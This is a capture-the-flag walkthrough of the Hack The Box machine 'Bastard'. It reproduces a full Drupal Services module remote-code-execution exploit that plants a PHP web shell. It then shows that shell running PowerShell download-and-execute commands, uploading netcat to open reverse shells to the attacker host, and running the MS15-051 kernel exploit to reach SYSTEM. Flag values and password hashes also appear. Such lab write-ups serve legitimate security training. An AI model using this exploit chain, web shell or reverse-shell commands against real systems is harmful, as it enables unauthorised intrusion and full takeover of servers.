#### Bastard

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)
- [Drupal Enumeration](#drupal-enumeration)
- [Drupal Exploitation](#drupal-exploitation)
- [Local Privilege Escalation](#local-privilege-escalation)
- [Bonus - View installed updates](#bonus---view-installed-updates)
- [Bonus - Execute files on a UNC share](#bonus---execute-files-on-a-unc-share)

###### Attacker Info

```sh
root@kali:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.19  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:fef1:8ebf  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:f1:8e:bf  txqueuelen 1000  (Ethernet)
        RX packets 182  bytes 32629 (31.8 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 133  bytes 26134 (25.5 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 19  base 0x2000

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 24  bytes 1272 (1.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 24  bytes 1272 (1.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.5  netmask 255.255.254.0  destination 10.10.14.5
        inet6 dead:beef:2::1003  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::2033:43b4:fa6d:f21f  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2  bytes 96 (96.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~#
```

###### Nmap Scan

```sh
root@kali:~/bastard# nmap -sV -sC -oA bastard.nmap 10.10.10.9

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-23 20:31 EST
Nmap scan report for 10.10.10.9
Host is up (0.24s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods:
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.25 seconds
root@kali:~/bastard#
```

[``How to obtain versions of Internet Information Server (IIS)``](https://support.microsoft.com/en-us/help/224609/how-to-obtain-versions-of-internet-information-server-iis)



###### Drupal Enumeration



```sh
git clone https://github.com/droope/droopescan.git
cd droopescan
pip install -r requirements.txt
./droopescan scan --help
```

```sh
root@kali:~/bastard/droopescan# ./droopescan scan drupal -u 10.10.10.9
modules [ =======================================            ] 2373/3000 (79%)[+]  Got a read timeout. Is the server overloaded? This may affect the results of your scan
[+] Themes found:
    seven http://10.10.10.9/themes/seven/
    garland http://10.10.10.9/themes/garland/

[+] Possible interesting urls found:
    Default changelog file - http://10.10.10.9/CHANGELOG.txt
    Default admin - http://10.10.10.9/user/login

[+] Possible version(s):
    7.54

[+] Plugins found:
    ctools http://10.10.10.9/sites/all/modules/ctools/
        http://10.10.10.9/sites/all/modules/ctools/CHANGELOG.txt
        http://10.10.10.9/sites/all/modules/ctools/changelog.txt
        http://10.10.10.9/sites/all/modules/ctools/CHANGELOG.TXT
        http://10.10.10.9/sites/all/modules/ctools/LICENSE.txt
        http://10.10.10.9/sites/all/modules/ctools/API.txt
    libraries http://10.10.10.9/sites/all/modules/libraries/
        http://10.10.10.9/sites/all/modules/libraries/CHANGELOG.txt
        http://10.10.10.9/sites/all/modules/libraries/changelog.txt
        http://10.10.10.9/sites/all/modules/libraries/CHANGELOG.TXT
        http://10.10.10.9/sites/all/modules/libraries/README.txt
        http://10.10.10.9/sites/all/modules/libraries/readme.txt
        http://10.10.10.9/sites/all/modules/libraries/README.TXT
        http://10.10.10.9/sites/all/modules/libraries/LICENSE.txt
    services http://10.10.10.9/sites/all/modules/services/
        http://10.10.10.9/sites/all/modules/services/README.txt
        http://10.10.10.9/sites/all/modules/services/readme.txt
        http://10.10.10.9/sites/all/modules/services/README.TXT
        http://10.10.10.9/sites/all/modules/services/LICENSE.txt
    image http://10.10.10.9/modules/image/
    profile http://10.10.10.9/modules/profile/
    php http://10.10.10.9/modules/php/

[+] Scan finished (0:47:23.861393 elapsed)
root@kali:~/bastard/droopescan#
```

```
http://10.10.10.9/CHANGELOG.txt
```



```sh
root@kali:~/bastard# searchsploit drupal
------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------
 Exploit Title                                                                                                                                                           |  Path
                                                                                                                                                                         | (/usr/share/exploitdb/platforms/)
------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------
Drupal 4.0 - News Message HTML Injection                                                                                                                                 | php/webapps/21863.txt
Drupal 4.1/4.2 - Cross-Site Scripting                                                                                                                                    | php/webapps/22940.txt
Drupal 4.5.3 < 4.6.1 - Comments PHP Injection                                                                                                                            | php/webapps/1088.pl
Drupal 4.7 - 'Attachment mod_mime' Remote Exploit                                                                                                                        | php/webapps/1821.php
Drupal 4.x - URL-Encoded Input HTML Injection                                                                                                                            | php/webapps/27020.txt
Drupal 5.2 - PHP Zend Hash Exploitation Vector                                                                                                                           | php/webapps/4510.txt
Drupal 5.21/6.16 - Denial of Service                                                                                                                                     | php/dos/10826.sh
Drupal 6.15 - Multiple Persistent Cross-Site Scripting Vulnerabilities                                                                                                   | php/webapps/11060.txt
Drupal 7.0 < 7.31 - SQL Injection (1)                                                                                                                                    | php/webapps/34984.py
Drupal 7.0 < 7.31 - SQL Injection (2)                                                                                                                                    | php/webapps/34992.txt
Drupal 7.12 - Multiple Vulnerabilities                                                                                                                                   | php/webapps/18564.txt
Drupal 7.32 - SQL Injection (PHP)                                                                                                                                        | php/webapps/34993.php
Drupal 7.x Module Services - Remote Code Execution                                                                                                                       | php/webapps/41564.php
Drupal < 4.7.6 - Post Comments Remote Command Execution                                                                                                                  | php/webapps/3313.pl
Drupal < 5.1 - Post Comments Remote Command Execution                                                                                                                    | php/webapps/3312.pl
Drupal < 5.22/6.16 - Multiple Vulnerabilities                                                                                                                            | php/webapps/33706.txt
Drupal < 7.32 - Unauthenticated SQL Injection                                                                                                                            | php/webapps/35150.php
Drupal < 7.34 - Denial of Service                                                                                                                                        | php/dos/35415.txt
Drupal Module Ajax Checklist 5.x-1.0 - Multiple SQL Injections                                                                                                           | php/webapps/32415.txt
Drupal Module CAPTCHA - Security Bypass                                                                                                                                  | php/webapps/35335.html
Drupal Module CKEditor 3.0 < 3.6.2 - Persistent EventHandler Cross-Site Scripting                                                                                        | php/webapps/18389.txt
Drupal Module CKEditor < 4.1WYSIWYG (Drupal 6.x/7.x) - Persistent Cross-Site Scripting                                                                                   | php/webapps/25493.txt
Drupal Module CODER 2.5 - Remote Command Execution (Metasploit)                                                                                                          | php/webapps/40149.rb
Drupal Module Coder < 7.x-1.3/7.x-2.6 - Remote Code Execution                                                                                                            | php/remote/40144.php
Drupal Module Cumulus 5.x-1.1/6.x-1.4 - 'tagcloud' Cross-Site Scripting                                                                                                  | php/webapps/35397.txt
Drupal Module Drag & Drop Gallery 6.x-1.5 - 'upload.php' Arbitrary File Upload                                                                                           | php/webapps/37453.php
Drupal Module Embedded Media Field/Media 6.x : Video Flotsam/Media: Audio Flotsam - Multiple Vulnerabilities                                                             | php/webapps/35072.txt
Drupal Module RESTWS 7.x - PHP Remote Code Execution (Metasploit)                                                                                                        | php/remote/40130.rb
Drupal Module Sections - Cross-Site Scripting                                                                                                                            | php/webapps/10485.txt
Drupal Module Sections 5.x-1.2/6.x-1.2 - HTML Injection                                                                                                                  | php/webapps/33410.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------
root@kali:~/bastard#
```

###### Drupal Exploitation

```sh
root@kali:~/bastard# cp /usr/share/exploitdb/platforms/php/webapps/41564.php .
```

```sh
apt-get install php-curl
```

```sh
root@kali:~# php -a
Interactive mode enabled

php >
php > $phpCode = <<<'EOD'
<<< > <?php
<<< >  if (isset($_REQUEST['fupload'])) {
<<< >     file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.15.5:8000/" . $_REQUEST['fupload']));
<<< >  };
<<< >  if (isset($_REQUEST['fexec'])) {
<<< >     echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
<<< >  };
<<< > ?>
<<< > EOD;
php >
php > echo $phpCode;
<?php
 if (isset($_REQUEST['fupload'])) {
    file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.10.9:8000/" . $_REQUEST['fupload']));
 };
 if (isset($_REQUEST['fexec'])) {
    echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
 };
?>
php >
php > exit
root@kali:~#
```

```sh
root@kali:~/bastard# php 41564.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
Failed to login with fake password
root@kali:~/bastard#
```













```sh
root@kali:~/bastard# php 41564.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
```









```php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
<?php
# Drupal Services Module Remote Code Execution Exploit
# https://www.ambionics.io/blog/drupal-services-module-rce
# cf
#
# Three stages:
# 1. Use the SQL Injection to get the contents of the cache for current endpoint
#    along with admin credentials and hash
# 2. Alter the cache to allow us to write a file and do so
# 3. Restore the cache
#

# Initialization

error_reporting(E_ALL);

define('QID', 'anything');
define('TYPE_PHP', 'application/vnd.php.serialized');
define('TYPE_JSON', 'application/json');
define('CONTROLLER', 'user');
define('ACTION', 'login');

$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$phpCode = <<<'EOD'
<?php
 if (isset($_REQUEST['fupload'])) {
    file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.5:8000/" . $_REQUEST['fupload']));
 };
 if (isset($_REQUEST['fexec'])) {
    echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
 };
?>
EOD;

$file = [
    'filename' => 'myshell.php',
    'data' => $phpCode
];

$browser = new Browser($url . $endpoint_path);


# Stage 1: SQL Injection

class DatabaseCondition
{
    protected $conditions = [
        "#conjunction" => "AND"
    ];
    protected $arguments = [];
    protected $changed = false;
    protected $queryPlaceholderIdentifier = null;
    public $stringVersion = null;

    public function __construct($stringVersion=null)
    {
        $this->stringVersion = $stringVersion;

        if(!isset($stringVersion))
        {
            $this->changed = true;
            $this->stringVersion = null;
        }
    }
}

class SelectQueryExtender {
    # Contains a DatabaseCondition object instead of a SelectQueryInterface
    # so that $query->compile() exists and (string) $query is controlled by us.
    protected $query = null;

    protected $uniqueIdentifier = QID;
    protected $connection;
    protected $placeholder = 0;

    public function __construct($sql)
    {
        $this->query = new DatabaseCondition($sql);
    }
}

$cache_id = "services:$endpoint:resources";
$sql_cache = "SELECT data FROM {cache} WHERE cid='$cache_id'";
$password_hash = '$S$D2NH.6IZNb1vbZEV1F0S9fqIz3A0Y1xueKznB8vWrMsnV/nrTpnd';

# Take first user but with a custom password
# Store the original password hash in signature_format, and endpoint cache
# in signature
$query =
    "0x3a) UNION SELECT ux.uid AS uid, " .
    "ux.name AS name, '$password_hash' AS pass, " .
    "ux.mail AS mail, ux.theme AS theme, ($sql_cache) AS signature, " .
    "ux.pass AS signature_format, ux.created AS created, " .
    "ux.access AS access, ux.login AS login, ux.status AS status, " .
    "ux.timezone AS timezone, ux.language AS language, ux.picture " .
    "AS picture, ux.init AS init, ux.data AS data FROM {users} ux " .
    "WHERE ux.uid<>(0"
;

$query = new SelectQueryExtender($query);
$data = ['username' => $query, 'password' => 'ouvreboite'];
$data = serialize($data);

$json = $browser->post(TYPE_PHP, $data);

# If this worked, the rest will as well
if(!isset($json->user))
{
    print_r($json);
    e("Failed to login with fake password");
}

# Store session and user data

$session = [
    'session_name' => $json->session_name,
    'session_id' => $json->sessid,
    'token' => $json->token
];
store('session', $session);

$user = $json->user;

# Unserialize the cached value
# Note: Drupal websites admins, this is your opportunity to fight back :)
$cache = unserialize($user->signature);

# Reassign fields
$user->pass = $user->signature_format;
unset($user->signature);
unset($user->signature_format);

store('user', $user);

if($cache === false)
{
    e("Unable to obtains endpoint's cache value");
}

x("Cache contains " . sizeof($cache) . " entries");

# Stage 2: Change endpoint's behaviour to write a shell

class DrupalCacheArray
{
    # Cache ID
    protected $cid = "services:endpoint_name:resources";
    # Name of the table to fetch data from.
    # Can also be used to SQL inject in DrupalDatabaseCache::getMultiple()
    protected $bin = 'cache';
    protected $keysToPersist = [];
    protected $storage = [];

    function __construct($storage, $endpoint, $controller, $action) {
        $settings = [
            'services' => ['resource_api_version' => '1.0']
        ];
        $this->cid = "services:$endpoint:resources";

        # If no endpoint is given, just reset the original values
        if(isset($controller))
        {
            $storage[$controller]['actions'][$action] = [
                'help' => 'Writes data to a file',
                # Callback function
                'callback' => 'file_put_contents',
                # This one does not accept "true" as Drupal does,
                # so we just go for a tautology
                'access callback' => 'is_string',
                'access arguments' => ['a string'],
                # Arguments given through POST
                'args' => [
                    0 => [
                        'name' => 'filename',
                        'type' => 'string',
                        'description' => 'Path to the file',
                        'source' => ['data' => 'filename'],
                        'optional' => false,
                    ],
                    1 => [
                        'name' => 'data',
                        'type' => 'string',
                        'description' => 'The data to write',
                        'source' => ['data' => 'data'],
                        'optional' => false,
                    ],
                ],
                'file' => [
                    'type' => 'inc',
                    'module' => 'services',
                    'name' => 'resources/user_resource',
                ],
                'endpoint' => $settings
            ];
            $storage[$controller]['endpoint']['actions'] += [
                $action => [
                    'enabled' => 1,
                    'settings' => $settings
                ]
            ];
        }

        $this->storage = $storage;
        $this->keysToPersist = array_fill_keys(array_keys($storage), true);
    }
}

class ThemeRegistry Extends DrupalCacheArray {
    protected $persistable;
    protected $completeRegistry;
}

cache_poison($endpoint, $cache);

# Write the file
$json = (array) $browser->post(TYPE_JSON, json_encode($file));


# Stage 3: Restore endpoint's behaviour

cache_reset($endpoint, $cache);

if(!(isset($json[0]) && $json[0] === strlen($file['data'])))
{
    e("Failed to write file.");
}

$file_url = $url . '/' . $file['filename'];
x("File written: $file_url");


# HTTP Browser

class Browser
{
    private $url;
    private $controller = CONTROLLER;
    private $action = ACTION;

    function __construct($url)
    {
        $this->url = $url;
    }

    function post($type, $data)
    {
        $headers = [
            "Accept: " . TYPE_JSON,
            "Content-Type: $type",
            "Content-Length: " . strlen($data)
        ];
        $url = $this->url . '/' . $this->controller . '/' . $this->action;

        $s = curl_init();
        curl_setopt($s, CURLOPT_URL, $url);
        curl_setopt($s, CURLOPT_HTTPHEADER, $headers);
        curl_setopt($s, CURLOPT_POST, 1);
        curl_setopt($s, CURLOPT_POSTFIELDS, $data);
        curl_setopt($s, CURLOPT_RETURNTRANSFER, true);
        curl_setopt($s, CURLOPT_SSL_VERIFYHOST, 0);
        curl_setopt($s, CURLOPT_SSL_VERIFYPEER, 0);
        $output = curl_exec($s);
        $error = curl_error($s);
        curl_close($s);

        if($error)
        {
            e("cURL: $error");
        }

        return json_decode($output);
    }
}

# Cache

function cache_poison($endpoint, $cache)
{
    $tr = new ThemeRegistry($cache, $endpoint, CONTROLLER, ACTION);
    cache_edit($tr);
}

function cache_reset($endpoint, $cache)
{
    $tr = new ThemeRegistry($cache, $endpoint, null, null);
    cache_edit($tr);
}

function cache_edit($tr)
{
    global $browser;
    $data = serialize([$tr]);
    $json = $browser->post(TYPE_PHP, $data);
}

# Utils

function x($message)
{
    print("$message\n");
}

function e($message)
{
    x($message);
    exit(1);
}

function store($name, $data)
{
    $filename = "$name.json";
    file_put_contents($filename, json_encode($data, JSON_PRETTY_PRINT));
    x("Stored $name information in $filename");
}
```

```sh
root@kali:~/bastard# php 41564.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9/myshell.php
root@kali:~/bastard#
```

```
http://10.10.10.9/myshell.php?fexec=dir
```



```sh
root@kali:~/bastard# ls -la
total 52
drwxr-xr-x  3 root root 4096 Jan 23 23:52 .
drwxr-xr-x 26 root root 4096 Jan 23 23:50 ..
-rwxr-xr-x  1 root root 8915 Jan 23 23:50 41564.php
-rw-r--r--  1 root root  414 Jan 23 20:33 bastard.nmap.gnmap
-rw-r--r--  1 root root 1055 Jan 23 20:33 bastard.nmap.nmap
-rw-r--r--  1 root root 6463 Jan 23 20:33 bastard.nmap.xml
-rw-r--r--  1 root root   40 Jan 23 23:52 cheat.txt
drwxr-xr-x  6 root root 4096 Jan 23 20:37 droopescan
-rw-r--r--  1 root root  187 Jan 23 23:51 session.json
-rw-r--r--  1 root root  799 Jan 23 23:51 user.json
root@kali:~/bastard#
```

```sh
root@kali:~/bastard# cat user.json
{
    "uid": "1",
    "name": "admin",
    "mail": "drupal@hackthebox.gr",
    "theme": "",
    "created": "1489920428",
    "access": "1516769340",
    "login": 1516769475,
    "status": "1",
    "timezone": "Europe\/Athens",
    "language": "",
    "picture": null,
    "init": "drupal@hackthebox.gr",
    "data": false,
    "roles": {
        "2": "authenticated user",
        "3": "administrator"
    },
    "rdf_mapping": {
        "rdftype": [
            "sioc:UserAccount"
        ],
        "name": {
            "predicates": [
                "foaf:name"
            ]
        },
        "homepage": {
            "predicates": [
                "foaf:page"
            ],
            "type": "rel"
        }
    },
    "pass": "$S$DRYKUR0xDeqClnV5W0dnncafeE.Wi4YytNcBmmCtwOjrcH5FJSaE"
}
root@kali:~/bastard#
```

```sh
root@kali:~/bastard# cat session.json
{
    "session_name": "SESSd873f26fc11f2b7e6e4aa0f6fce59913",
    "session_id": "f3Q4-bSuZP1Baxxp6PGdKnP7tVUuolfcSFg-EMQp92Q",
    "token": "yvK9v6a1_aUHB16x1ANZmYSH_vM5L0cPPt4o37ARWpM"
}
root@kali:~/bastard#
```















```
http://10.10.10.9/myshell.php?fexec=systeminfo
```



###### Local Privilege Escalation

```sh
root@kali:~/bastard# locate PowerUp.ps1
/opt/empire/data/module_source/privesc/PowerUp.ps1
root@kali:~/bastard# cp /opt/empire/data/module_source/privesc/PowerUp.ps1 .
```

```sh
root@kali:~/bastard# nano PowerUp.ps1
root@kali:~/bastard# tail PowerUp.ps1
$TOKEN_GROUPS = struct $Module PowerUp.TokenGroups @{
    GroupCount  = field 0 UInt32
    Groups      = field 1 $SID_AND_ATTRIBUTES.MakeArrayType() -MarshalAs @('ByValArray', 32)
}

$Types = $FunctionDefinitions | Add-Win32Type -Module $Module -Namespace 'PowerUp.NativeMethods'
$Advapi32 = $Types['advapi32']
$Kernel32 = $Types['kernel32']

Invoke-AllChecks
root@kali:~/bastard#
```

```sh
root@kali:~/bastard# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.9 - - [24/Jan/2018 00:20:55] "GET /PowerUp.ps1 HTTP/1.1" 200 -
```

```
http://10.10.10.9/myshell.php?fexec=echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.5:8000/PowerUp.ps1') | powershell -noprofile -
```



```
http://10.10.10.9/myshell.php?fexec=sc query state= all
```



```
http://10.10.10.9/myshell.php?fexec=netstat -an
```



```sh
root@kali:~/bastard# git clone https://github.com/rasta-mouse/Sherlock.git
Cloning into 'Sherlock'...
remote: Counting objects: 63, done.
remote: Total 63 (delta 0), reused 0 (delta 0), pack-reused 63
Unpacking objects: 100% (63/63), done.
root@kali:~/bastard# cd Sherlock/
root@kali:~/bastard/Sherlock# ls
LICENSE  README.md  Sherlock.ps1
root@kali:~/bastard/Sherlock# cp Sherlock.ps1 ../
root@kali:~/bastard/Sherlock# cd ..
root@kali:~/bastard# nano Sherlock.ps1
```

```sh
root@kali:~/bastard# tail Sherlock.ps1
            14393 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le 446 ] }
            default { $VulnStatus = "Not Vulnerable" }

        }

    Set-ExploitTable $MSBulletin $VulnStatus

}

Find-AllVulns
root@kali:~/bastard#
```

```sh
root@kali:~/bastard# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.9 - - [24/Jan/2018 00:20:55] "GET /PowerUp.ps1 HTTP/1.1" 200 -
10.10.10.9 - - [24/Jan/2018 00:33:32] "GET /Sherlock.ps1 HTTP/1.1" 200 -
```

```
http://10.10.10.9/myshell.php?fexec=echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.5:8000/Sherlock.ps1') | powershell -noprofile -
```



```sh
root@kali:~/bastard# wget https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip
--2018-01-24 00:37:00--  https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip
Resolving eternallybored.org (eternallybored.org)... 84.255.206.8, 2a01:260:4094:1:42:42:42:42
Connecting to eternallybored.org (eternallybored.org)|84.255.206.8|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 111892 (109K) [application/zip]
Saving to: ‘netcat-win32-1.12.zip’

netcat-win32-1.12.zip                              100%[================================================================================================================>] 109.27K   177KB/s    in 0.6s

2018-01-24 00:37:01 (177 KB/s) - ‘netcat-win32-1.12.zip’ saved [111892/111892]

root@kali:~/bastard#
root@kali:~/bastard# unzip netcat-win32-1.12.zip
Archive:  netcat-win32-1.12.zip
  inflating: doexec.c
  inflating: getopt.c
  inflating: netcat.c
  inflating: generic.h
  inflating: getopt.h
  inflating: hobbit.txt
  inflating: license.txt
  inflating: readme.txt
  inflating: Makefile
  inflating: nc.exe
  inflating: nc64.exe
root@kali:~/bastard#
```

```sh
root@kali:~/bastard# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.9 - - [24/Jan/2018 01:14:27] "GET /nc64.exe HTTP/1.0" 200 -
```

```
http://10.10.10.9/myshell.php?fupload=nc64.exe
```



```
http://10.10.10.9/myshell.php?fexec=nc64.exe -e cmd 10.10.14.5 8081
```



```sh
root@kali:~/bastard# nc -lvp 8081
listening on [any] 8081 ...
10.10.10.9: inverse host lookup failed: Unknown host
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.9] 49182
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\iusr

C:\inetpub\drupal-7.54>
```

[``MS15-051``](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051)

```sh
root@kali:~/bastard# unzip MS15-051-KB3045171.zip
Archive:  MS15-051-KB3045171.zip
   creating: MS15-051-KB3045171/
  inflating: MS15-051-KB3045171/ms15-051.exe
  inflating: MS15-051-KB3045171/ms15-051x64.exe
   creating: MS15-051-KB3045171/Source/
   creating: MS15-051-KB3045171/Source/ms15-051/
  inflating: MS15-051-KB3045171/Source/ms15-051/ms15-051.cpp
  inflating: MS15-051-KB3045171/Source/ms15-051/ms15-051.vcxproj
  inflating: MS15-051-KB3045171/Source/ms15-051/ms15-051.vcxproj.filters
  inflating: MS15-051-KB3045171/Source/ms15-051/ms15-051.vcxproj.user
  inflating: MS15-051-KB3045171/Source/ms15-051/ntdll.lib
  inflating: MS15-051-KB3045171/Source/ms15-051/ntdll64.lib
  inflating: MS15-051-KB3045171/Source/ms15-051/ReadMe.txt
   creating: MS15-051-KB3045171/Source/ms15-051/Win32/
  inflating: MS15-051-KB3045171/Source/ms15-051/Win32/ms15-051.exe
   creating: MS15-051-KB3045171/Source/ms15-051/x64/
  inflating: MS15-051-KB3045171/Source/ms15-051/x64/ms15-051x64.exe
  inflating: MS15-051-KB3045171/Source/ms15-051.sln
  inflating: MS15-051-KB3045171/Source/ms15-051.suo
root@kali:~/bastard#
root@kali:~/bastard# cd MS15-051-KB3045171/
root@kali:~/bastard/MS15-051-KB3045171# ls
ms15-051.exe  ms15-051x64.exe  Source
root@kali:~/bastard/MS15-051-KB3045171#
root@kali:~/bastard/MS15-051-KB3045171# cp ms15-051x64.exe ../
```

```sh
root@kali:~/bastard# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.9 - - [24/Jan/2018 01:14:27] "GET /nc64.exe HTTP/1.0" 200 -
10.10.10.9 - - [24/Jan/2018 01:22:18] "GET /ms15-051x64.exe HTTP/1.0" 200 -
```

```
http://10.10.10.9/myshell.php?fupload=ms15-051x64.exe&fexec=ms15-051x64.exe "nc64.exe -e cmd 10.10.14.5 8082"
```

```sh
root@kali:~/bastard# nc -lvp 8082
listening on [any] 8082 ...
10.10.10.9: inverse host lookup failed: Unknown host
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.9] 49184
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system

C:\inetpub\drupal-7.54>
```

```
C:\Users\dimitris\Desktop>type user.txt
type user.txt
ba22fde1932d06eb76a163d312f921a2
C:\Users\dimitris\Desktop>
```

```
C:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
4bf12b963da1b30cc93496f617f7ba7c
C:\Users\Administrator\Desktop>
```

###### Bonus - View installed updates

```
C:\Windows\SoftwareDistribution\Download>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 605B-4AAA

 Directory of C:\Windows\SoftwareDistribution\Download

18/03/2017  07:06 ��    <DIR>          .
18/03/2017  07:06 ��    <DIR>          ..
               0 File(s)              0 bytes
               2 Dir(s)  30.824.435.712 bytes free

C:\Windows\SoftwareDistribution\Download>
```

```
C:\Windows\SoftwareDistribution\Download>systeminfo
systeminfo

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00496-001-0001283-84782
Original Install Date:     18/3/2017, 7:04:46 ��
System Boot Time:          24/1/2018, 8:12:47 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2594 Mhz
                           [02]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2594 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.048 MB
Available Physical Memory: 1.587 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.596 MB
Virtual Memory: In Use:    499 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.9

C:\Windows\SoftwareDistribution\Download>
```

```
C:\Windows>type windowsupdate.log
type windowsupdate.log
2017-03-18	19:06:43:471	 952	5b4	Misc	===========  Logging initialized (build: 7.3.7600.16385, tz: +0200)  ===========
2017-03-18	19:06:43:549	 952	5b4	Misc	  = Process: C:\Windows\system32\svchost.exe
2017-03-18	19:06:43:611	 952	5b4	Misc	  = Module: c:\windows\system32\wuaueng.dll
2017-03-18	19:06:43:471	 952	5b4	Service	*************
2017-03-18	19:06:43:736	 952	5b4	Service	** START **  Service: Service startup
2017-03-18	19:06:43:798	 952	5b4	Service	*********
2017-03-18	19:06:44:017	 952	5b4	Agent	  * WU client version 7.3.7600.16385
2017-03-18	19:06:44:079	 952	5b4	Agent	  * Base directory: C:\Windows\SoftwareDistribution
2017-03-18	19:06:44:079	 952	5b4	Agent	  * Access type: No proxy
2017-03-18	19:06:44:079	 952	5b4	Agent	  * Network state: Connected
2017-03-18	19:06:46:201	 952	5b4	DtaStor	Default service for AU is {00000000-0000-0000-0000-000000000000}
